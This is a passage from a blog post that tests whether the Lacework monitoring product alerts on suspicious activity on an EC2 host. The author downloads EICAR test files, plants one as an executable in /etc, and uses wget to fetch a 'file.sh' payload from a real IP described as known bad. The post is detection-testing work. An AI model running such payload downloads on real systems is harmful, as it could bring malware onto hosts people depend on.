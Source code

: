 ```
                                 Dload  Upload   Total   Spent    Left  Speed
100    68  100    68    0     0     59      0  0:00:01  0:00:01 --:--:--    59
[ec2-user@ip-XXX-XXX-XXX-XXX eicar-s]$ curl -O https://secure.eicar.org/eicar.com.txt
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    68  100    68    0     0    142      0 --:--:-- --:--:-- --:--:--   142
[ec2-user@ip-XXX-XXX-XXX-XXX eicar-s]$ curl -O https://secure.eicar.org/eicar_com.zip
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   184  100   184    0     0    385      0 --:--:-- --:--:-- --:--:--   384
[ec2-user@ip-XXX-XXX-XXX-XXX eicar-s]$ curl -O https://secure.eicar.org/eicarcom2.zip
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   308  100   308    0     0    643      0 --:--:-- --:--:-- --:--:--   641
[ec2-user@ip-XXX-XXX-XXX-XXX eicar-s]$
```
Let's copy eicar to `/etc` and make it executable...
```
[ec2-user@ip-XXX-XXX-XXX-XXX eicar-s]$ sudo cp eicar.com /etc/
[ec2-user@ip-XXX-XXX-XXX-XXX eicar-s]$ sudo chmod +x /etc/eicar.com
[ec2-user@ip-XXX-XXX-XXX-XXX eicar-s]$
```
Finally, let's pull down the payload from a _known bad_ IP:
```
[ec2-user@ip-XXX-XXX-XXX-XXX evil]$ wget http://18.231.31.145/file.sh
--2019-04-04 23:12:59--  http://18.231.31.145/file.sh
Connecting to 18.231.31.145:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 68 [application/octet-stream]
Saving to: ‘file.sh’

100%[=========================================================================================================================================================================>] 68          --.-K/s   in 0s      

2019-04-04 23:13:00 (6.92 MB/s) - ‘file.sh’ saved [68/68]

[ec2-user@ip-XXX-XXX-XXX-XXX evil]$
```


Unfortunately, Lacework didn't alert on any of the above =( -- I'm quite surprised and I'll be following up with them to see if I should have configured something differently to enable file and network monitoring.

How about playing with `whois`?
```
sudo yum install whois
whois 18.231.31.145
```
Lacework caught a few interesting things here.

![Whois Escalation](/assets/whoisescalation.png)
